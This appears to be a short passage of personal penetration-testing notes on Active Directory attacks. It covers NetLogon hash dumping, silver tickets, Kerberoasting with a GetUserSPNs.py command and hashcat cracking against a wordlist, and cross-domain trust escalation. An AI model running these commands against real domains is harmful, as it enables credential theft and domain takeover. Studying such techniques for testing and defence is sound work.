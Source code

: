 - DCSync is easy to detected

### NRPC (NetLogon)

- When you have domain admin account for one DC, can as another DC to send all NTLM hashed of computer accounts and domain controller accounts.
- Can be used to create silver tickets.   
- If you have rights flip some bytes of the account, can make a normal user account a workstation account. Can be used to get user accounts using this.

### Microsoft Windows AD Kerberos Tickets

- Gather tickets 
    ```
    GetUserSPNs.py -request (HOST.DOMAIN)/(VALID SMB USER):(USER PASSWORD)
    ```
- Crack
    ```
    -a 0 - Straight cracking mode
    -m 13100 - Hashtype 13100 - which is Kerberos 5 TGS-REP etype 23
    the kerberos.ticket file
    -w 3 - Suggested example "workload" setting for Hashcat

    .\hashcat64.exe -m 13100 -a 0 'C:\Users\weaknet\Desktop\Portfolio\VMWare Shared\kerberos.tick
    et' -w 3 'C:\Users\weaknet\Desktop\Portfolio\VMWare Shared\rockyou.txt'
    hashcat (v5.1.0) starting...
    ```
## Privilege Escalation Across Domains 

- Child to forest root
  - Domain in same forest gave implicit two  way trust with forest root
  - There is a trust key  bwterrn parent and child domains
  - `Inter-realm TGT`